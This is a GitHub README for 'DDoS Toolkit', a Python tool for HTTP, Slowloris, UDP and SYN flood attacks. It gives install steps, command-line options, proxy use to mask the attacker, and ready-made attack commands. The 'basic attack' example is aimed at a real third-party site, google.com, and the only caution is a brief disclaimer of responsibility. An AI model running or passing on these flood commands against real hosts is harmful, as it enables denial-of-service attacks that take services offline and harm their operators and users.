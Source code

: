 <p align="center">
<img src="/img/imgs.jpg">
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Linux-a80505?style=flat-square">
  <img src="https://img.shields.io/badge/License-MIT-a80505?style=flat-square">
  <img src="https://img.shields.io/github/v/release/Midohajhouj/DDoS-Toolkit?label=Version&color=a80505">
  <img src="https://img.shields.io/badge/Open%20Source-Yes-darkviolet?style=flat-square&color=a80505">
  <img src="https://img.shields.io/github/stars/Midohajhouj/DDoS-Toolkit?style=flat&label=Stars&color=a80505">  
  <img src="https://img.shields.io/github/repo-size/Midohajhouj/DDoS-Toolkit?label=Size&color=a80505">
  <img src="https://img.shields.io/github/languages/top/Midohajhouj/DDoS-Toolkit?color=a80505">
</p>

---

**DDoS Toolkit** is a powerful and customizable tool designed to simulate various types of Distributed Denial of Service (DDoS) attacks, including HTTP/HTTP2 Flood, Slowloris, UDP Flood, SYN Flood, SSH Flood, SSL Flood, and FTP Flood. It offers features like rate-limited attacks, proxy support, custom payload generation, and system resource monitoring, making it suitable for testing and research purposes in ethical cybersecurity simulations.

> 🚨 **Note:** The author is not responsible for any misuse of this tool. Use at your own risk.

---

## Table of Contents

- [Features](##features)
- [Installation](##installation)
- [Usage](##usage)
- [Contact](##contact)

---

## 📋 Features
- **Multiple Attack Modes:** Supports HTTP Flood, Slowloris, UDP Flood, and SYN Flood.
- **Rate-Limited Attacks:** Customize the rate of requests sent to the target.
- **Proxy Support:** Use proxies to mask your requests and make attacks more efficient.
- **Custom Payloads:** Generate various types of payloads such as JSON, XML, and Form data.
- **Real-time Monitoring:** Track system resource usage and attack progress.

## Requirements

This tool's configuration includes file paths specifically set for /opt/DDoS-Toolkit/. Several key functionalities will not work properly unless the tool's directory is located in the /opt directory.

### Python Libraries
- aiohttp
- asyncio
- argparse
- threading
- scapy
- psutil
- colorama
- tqdm
- openai
- dns.resolver
- hashlib
- zlib

### System Requirements
- Python 3.x
- Internet access for proxy validation and AI suggestions

---

## 🛠️ Installation

### 1. Clone the repository:
```bash
sudo git clone https://github.com/Midohajhouj/DDoS-Toolkit.git /opt/DDoS-Toolkit
```
```bash
cd /opt/DDoS-Toolkit
```
```bash
sudo chmod +x *
```

### 2. Install dependencies:
```bash
sudo ./setup install
```

### 3. Build Debian PKG
If u have a Debian distro u can automase the below with this command:
```bash
cd build
```
```bash
chmod +x builder.sh
```
```bash
sudo ./builder.sh
```
```bash
dpkg -i ddos-toolkit.deb
```

If you encounter an error related to missing modules or dependencies, you can install each one individually. For example:

```bash
pip install <module_name>
```

For example, if the error is:

```
ModuleNotFoundError: No module named 'aiohttp'
```

You can resolve it by running:

```bash
pip install aiohttp --break-system-packages
```
---

## ⚙️ Usage (be root or use sudo)
Any result found in :
```bash
opt/DDoS-Toolkit/logs
```
### Basic Attack
To perform a basic attack with default settings:
```bash
sudo ddos -u https://google.com/
```

### Command-Line Arguments:
- `-u, --url`: Target URL or IP address (required)
- `-t, --threads`: Number of threads (default: 10)
- `-p, --pause`: Pause time between requests (default: 0.1 seconds)
- `-d, --duration`: Duration of the attack in seconds (default: 1500)
- `--proxies`: Proxy list file (optional)
- `--headers`: Custom headers as JSON string (optional)
- `--payload`: Payload type (`json`, `xml`, `form`), default is `json`
- `--rate-limit`: Rate limit for requests per second (default: 100)
- `--attack-mode`: Type of attack (`http-flood`, `slowloris`, `udp-flood`, `syn-flood`), default is `http-flood`
- `--proxy-auth`: Proxy authentication (username:password), optional
- `--retry`: Number of retries for failed requests (default: 3)
- `--user-agents`: Custom user-agent list file (optional)

### Example Usage:
1. Perform an HTTP flood attack with 20 threads, 0.1s pause time, and for 300 seconds:
```bash
ddos -u http://192.168.48.165/ -t 20 -p 0.1 -d 300
```

2. Perform a SYN flood attack on IP `192.168.48.165` for 60 seconds:
```bash
ddos -u 192.168.48.165 --attack-mode syn-flood -d 60
```

3. Use proxies for the attack:
```bash
ddos -u http://192.168.48.165 --proxies proxies.txt
```

4. Save attack results to a JSON file. 
```bash
ddos -u http://192.168.48.165 --results attack_results.json
```

## Example Output
```bash
Starting attack on http://192.168.48.165...
Requests Sent: 100 | Successful: 98 | Failed: 2 | RPS: 50.00 | CPU: 45% | Memory: 32%
```

## Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or submit a pull request.

**<p align="center"> Developed by <a href="https://github.com/Midohajhouj">MIDO</a> </p>**
